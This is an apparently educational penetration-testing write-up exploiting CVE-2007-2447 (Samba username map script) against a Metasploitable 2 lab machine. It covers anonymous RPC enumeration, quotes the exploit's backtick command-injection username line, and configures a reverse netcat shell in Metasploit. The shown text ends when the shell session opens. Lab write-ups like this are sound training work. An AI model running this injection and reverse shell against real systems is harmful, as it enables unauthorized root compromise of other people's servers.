# Incident 18 — Samba Username Map Script Remote Code Execution

**Offensive Security | Network Penetration Testing | SMB Enumeration | Remote Code Execution**

## Executive Summary

This case study documents an authorized penetration-testing exercise conducted against **Metasploitable 2**, an intentionally vulnerable Linux machine running in an isolated VirtualBox laboratory.

The assessment began with network connectivity verification and SMB service discovery. Further enumeration through Samba's RPC interfaces revealed the precise server version, **Samba 3.0.20-Debian**, and exposed a list of local accounts without requiring user credentials.

Vulnerability research identified **CVE-2007-2447**, a remote command execution vulnerability affecting certain Samba configurations that use the `username map script` option.

After reviewing the exploit's Ruby source code, I configured and executed the Metasploit module `exploit/multi/samba/usermap_script` against the laboratory target.

The exploitation attempt successfully established a reverse command shell. Identity verification confirmed that commands executed directly as the Linux `root` account.

**Final outcome: SMB Enumeration → CVE-2007-2447 Identification → Remote Code Execution → Root Shell**

Unlike the previous DistCC incident, no separate local privilege escalation was required.

---

## 1. Assessment Overview

| Category | Details |
|---|---|
| Incident | 18 |
| Assessment Type | Network Penetration Testing |
| Target | Metasploitable 2 |
| Target IP | `172.30.1.22` |
| Attacker | Kali Linux |
| Attacker IP | `172.30.1.20` |
| Laboratory Network | `172.30.1.0/24` |
| Virtualization | Oracle VirtualBox |
| Target Service | Samba |
| Identified Version | Samba 3.0.20-Debian |
| Exposed Ports | TCP 139, 445 |
| Vulnerability | CVE-2007-2447 |
| Exploitation Module | `exploit/multi/samba/usermap_script` |
| Payload | `cmd/unix/reverse_netcat` |
| Result | Remote Shell as `root` |
| Status | Successfully exploited and documented |

### Scope and Authorization

All testing was performed against an intentionally vulnerable virtual machine inside a private, authorized laboratory.

No third-party systems were targeted.

The exercise was conducted for educational research, practical offensive-security training, and technical portfolio documentation.

---

## 2. Attack Chain Overview

```text
KALI LINUX
172.30.1.20
      |
      | Network Reconnaissance
      v
METASPLOITABLE 2
172.30.1.22
      |
      | TCP 139 / 445
      v
SAMBA SMB SERVICE
      |
      | Anonymous RPC Enumeration
      v
Samba 3.0.20-Debian
      |
      | Vulnerability Research
      v
CVE-2007-2447
Username Map Script
      |
      | Crafted SMB Session Setup
      v
REMOTE COMMAND EXECUTION
      |
      | Reverse Netcat Payload
      v
REVERSE COMMAND SHELL
      |
      | Identity Verification
      v
UID=0(root)
GID=0(root)
      |
      v
ROOT ACCESS CONFIRMED
```

The attack path demonstrates how exposed service information and a vulnerable pre-authentication username-processing mechanism can lead to full system compromise.

---

## 3. Laboratory Environment

### Virtual Machines

| System | Role | IP Address |
|---|---|---|
| Kali Linux | Attacker | `172.30.1.20` |
| Metasploitable 2 | Target | `172.30.1.22` |

The machines communicated through the authorized laboratory network `172.30.1.0/24`.

### Tools Used

- Nmap — network and service discovery
- RPCClient — Samba RPC enumeration
- SearchSploit — vulnerability research
- Mousepad — static source-code inspection
- Metasploit Framework — controlled exploitation
- Linux command-line utilities — identity and permission verification

---

## 4. Network Connectivity Verification

### Objective

Verify that Kali Linux could communicate with the target before beginning service enumeration.

### Attacker Interface Verification

On Kali Linux:

```bash
ip -br -4 addr
```

The relevant laboratory interface was:

```text
eth1    UP    172.30.1.20/24
```

### ICMP Connectivity Test

```bash
ping -c 4 172.30.1.22
```

Observed:

```text
4 packets transmitted, 4 received, 0% packet loss
```

### Analysis

The result confirmed that the target IP responded to ICMP Echo Requests from the attacking machine.

This established basic IP connectivity but did not yet prove that SMB services were accessible.

**Evidence — Network Connectivity**



---

## 5. SMB Service Discovery

### Objective

Identify accessible SMB ports and determine which service was running.

### Nmap Scan

```bash
grc nmap -sV -p 139,445 172.30.1.22
```

### Observed Results

```text
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### Analysis

Two SMB-related ports were exposed.

**TCP 139 — NetBIOS Session Service**

Historically used to transport SMB communications over NetBIOS.

**TCP 445 — Direct SMB over TCP**

Allows SMB communication directly over TCP without the NetBIOS Session Service layer.

**Samba**

The service identification indicated that the Linux target was running Samba, an implementation of SMB-related protocols and services.

**WORKGROUP**

The target advertised membership in the `WORKGROUP` workgroup. This did not establish that the system was joined to an Active Directory domain.

### Important Observation

Nmap initially identified the server version only as:

```text
Samba smbd 3.X - 4.X
```

Further enumeration was necessary to identify the precise Samba release.

**Evidence — Samba Discovery**



---

## 6. Anonymous RPC Enumeration

### Objective

Determine whether the Samba server exposed information through RPC without requiring user credentials.

### Connection

From Kali Linux:

```bash
rpcclient -U "" -N 172.30.1.22
```

### Parameters

| Parameter | Meaning |
|---|---|
| `rpcclient` | Samba RPC client |
| `-U ""` | Empty username |
| `-N` | Do not prompt for a password |
| `172.30.1.22` | Target IP address |

The connection was accepted:

```text
rpcclient $>
```

### Interpretation

The server allowed an unauthenticated client connection to the RPC interface.

This did not automatically grant unrestricted access to every RPC operation.

The permissions and results of individual RPC calls still needed to be examined.

---

## 7. RPC Server Information

### Objective

Obtain more precise information about the remote Samba service.

### Command

Inside the RPCClient session:

```text
srvinfo
```

### Observed Output

```text
METASPLOITABLE Wk Sv PrQ Unx NT SNT metasploitable server (Samba 3.0.20-Debian)
platform_id     : 500
os version      : 4.9
server type     : 0x9a03
```

### Analysis

The most important discovery was:

**Samba 3.0.20-Debian**

RPC enumeration provided a more precise version string than the earlier Nmap fingerprint.

The reported `os version: 4.9` was part of the RPC server-information response and should not be interpreted as the actual Linux kernel version.

### Security Relevance

Identifying the exact service version narrowed the scope of vulnerability research and allowed more targeted evaluation of known Samba vulnerabilities.

**Evidence — RPC Server Information**



---

## 8. Anonymous User Enumeration

### Objective

Determine whether the RPC interface allowed enumeration of account information without credentials.

### Command

```text
enumdomusers
```

### Observed Output

The server returned 35 account entries, including:

```text
user:[root]      rid:[0x3e8]
user:[daemon]    rid:[0x3ea]
user:[www-data]  rid:[0x42a]
user:[mysql]     rid:[0x4c2]
user:[msfadmin]  rid:[0xbb8]
```

Additional service accounts were also enumerated.

### Analysis

This demonstrated that the Samba server exposed account names and their associated relative identifiers through RPC to a client that had not supplied credentials.

Such information can assist an attacker in understanding a target's account structure and potential service identities.

### RID vs. Linux UID

A **RID (Relative Identifier)** is part of an SID-based identity structure.

A **UID (User Identifier)** identifies an account within the Linux user database.

For example:

```text
Samba account: root
RID: 0x3e8
```

The hexadecimal RID `0x3e8` equals 1000 in decimal.

That does **not** mean the Linux `root` account has UID 1000. On the target, Linux root was subsequently confirmed as UID 0.

These identity systems must not be confused.

### Additional RPC Tests

Two further commands were tested:

```text
enumdomgroups
enumalsgroups builtin
```

Neither returned a group listing.

This does not establish that Linux groups were absent. It only describes the results obtained from those RPC operations.

**Evidence — Anonymous User Enumeration**



**Finding:** Anonymous RPC account enumeration was possible.

---

## 9. Vulnerability Research

### Objective

Identify known vulnerabilities potentially affecting Samba 3.0.20.

### SearchSploit Research

On Kali Linux:

```bash
searchsploit Samba 3.0.20
```

The search returned multiple results.

The most relevant candidate was:

```text
Samba 3.0.20 < 3.0.25rc3 -
'Username' map script' Command Execution

unix/remote/16320.rb
```

### Exploit Reference

```bash
searchsploit -p 16320
```

Observed:

```text
Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)

URL: https://www.exploit-db.com/exploits/16320

Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb

Codes: CVE-2007-2447, OSVDB-34700
Verified: True
File Type: Ruby script, ASCII text
```

### Selected Vulnerability

**CVE-2007-2447 — Samba Username Map Script Command Execution**

The vulnerability affects certain Samba releases when the non-default `username map script` configuration option is used in a vulnerable manner.

A specially constructed username containing shell metacharacters can lead to execution of operating system commands.

### Important Distinction

The Samba version alone was not sufficient to prove exploitability.

The vulnerability also depended on the target's effective configuration and the vulnerable command-execution path being reachable.

The later exploitation result provided practical confirmation.

**Evidence — Vulnerability Research**



---

## 10. Static Analysis of the Exploit Source

### Objective

Understand the vulnerability mechanism before launching Metasploit.

### Source Location

```text
/usr/share/exploitdb/exploits/unix/remote/16320.rb
```

The Ruby source file was opened using Mousepad:

```bash
mousepad /usr/share/exploitdb/exploits/unix/remote/16320.rb
```

This was a read-only analysis step. Opening the source file did not execute the exploit.

### SMB Module Integration

The exploit includes:

```ruby
include Msf::Exploit::Remote::SMB
```

This provides functionality for interacting with the target through SMB.

### Exploit Description

The source identifies a command execution weakness related to:

```text
username map script
```

It also states that exploitation does not require successful authentication because username mapping may occur before authentication is completed.

### Vulnerable Input Construction

The key source-code statement is:

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

This constructs a username containing shell command-substitution syntax.

### Technical Explanation

In Unix shells, backticks may be used to execute a command and substitute its output into the surrounding expression.

The exploit takes advantage of a vulnerable Samba configuration in which attacker-controlled username data can reach shell command execution.

The username is no longer handled strictly as data.

Instead, shell metacharacters can influence command interpretation.

### Delivery Through SMB Session Setup

The module passes the constructed username into an SMB session-setup operation:

```ruby
simple.client.session_setup_ntlmv1(
    username,
    rand_text(16),
    datastore['SMBDomain'],
    false
)
```

The important relationship is:

1. The attacker controls the supplied username.
2. The crafted username is delivered through an SMB authentication-related request.
3. The vulnerable username-mapping mechanism processes the input.
4. Shell metacharacters can result in command execution.
5. Successful exploitation may occur before authentication succeeds.

### Privilege Context

The module also declares:

```ruby
'Privileged' => true
```

This is module metadata describing expected privilege behavior.

It is not, by itself, proof that the target will execute commands as root.

Actual privileges must be verified after exploitation.

**Evidence — Exploit Source Analysis**



---

## 11. Metasploit Module Discovery

### Objective

Identify the installed Metasploit module corresponding to the researched vulnerability.

### Metasploit Launch

```bash
msfconsole -q
```

### Module Search

```text
search usermap_script
```

### Result

```text
exploit/multi/samba/usermap_script
```

The module was associated with Samba username map script command execution.

### Module Characteristics

| Property | Value |
|---|---|
| Module | `exploit/multi/samba/usermap_script` |
| Type | Remote Exploit |
| Vulnerability | CVE-2007-2447 |
| Ranking | Excellent |
| Disclosure Date | May 14, 2007 |
| Automatic Check | Not available |

### Interpretation

An **Excellent** ranking represents Metasploit's reliability assessment of the exploit module under applicable conditions.

It does not prove that every Samba 3.0.20 installation is vulnerable.

The module's lack of an automatic vulnerability check meant that controlled exploitation was used to validate the target.

**Evidence — Metasploit Module Discovery**



---

## 12. Exploit Configuration

### Objective

Configure the Metasploit module for the authorized laboratory target.

### Module Selection

```text
use exploit/multi/samba/usermap_script
```

### Configuration

```text
set RHOSTS 172.30.1.22
set RPORT 139
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 172.30.1.20
set LPORT 4444
```

### Verification

```text
show options
```

### Parameters

| Parameter | Value | Function |
|---|---|---|
| `RHOSTS` | `172.30.1.22` | Target system |
| `RPORT` | `139` | Target SMB port |
| `PAYLOAD` | `cmd/unix/reverse_netcat` | Reverse command shell |
| `LHOST` | `172.30.1.20` | Attacker listener IP |
| `LPORT` | `4444` | Attacker listening port |

### Why LHOST Matters

Kali Linux had multiple network interfaces.

The relevant interface for communication with Metasploitable 2 was:

```text
eth1 — 172.30.1.20
```

The listener was explicitly configured to use this address rather than Kali's separate interface at `10.10.10.6`.

This ensured that the reverse payload targeted the address appropriate for the laboratory network.

**Evidence — Metasploit Configuration**



---

## 13. Remote Command Execution

### Objective

Validate the vulnerability by attempting controlled command execution against Metasploitable 2.

### Exploit Execution

Inside Metasploit:

```text
exploit
```

### Observed Result

The exploit successfully opened a command shell:

```text
[*] Started reverse TCP handler on 172.30.1.20:4444

[*] Command shell session 1 opened
    (172.30.1.20:4444 -> 172.30.1.22:32768)
```

### Interpretation

The Metasploit handler received a reverse connection originating from the target.

This established an interactive remote command channel.

At this stage, the observed result confirmed that the exploitation attempt succeeded in establishing a session.

The privileges and target identity were verified separately in the following phase.

**Evidence — Reverse Shell Established**

